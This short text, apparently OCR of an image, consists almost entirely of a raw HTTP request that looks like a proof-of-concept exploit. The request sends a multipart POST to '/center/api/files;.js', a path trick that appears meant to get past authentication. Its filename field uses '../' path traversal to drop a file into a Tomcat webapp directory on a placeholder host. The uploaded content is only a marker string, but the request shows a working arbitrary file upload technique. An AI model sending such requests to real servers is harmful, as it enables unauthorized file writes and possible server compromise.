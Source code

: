 POST/center/api/files;.jsHTTP/1.1
Host:x.x.x.x
User-Agent:python-requests/2.31.0
Accept-Encoding:gzip,deflate
Accept:*/*
Connection:close
Content-Length:258
Content-Type:multipart/form-data;boundary=e54e7e5834c8c50e92189959fe7227a4
--e54e7e5834c8c50e92189959fe7227a4
Content-Disposition:form-data;name="file";filename="../../../../../bin/tomcat/apache-tomcat/webapps/clusterMgr/2BT5AV96QW.txt"
Content-Type:application/octet-stream
9YPQ3I3ZS
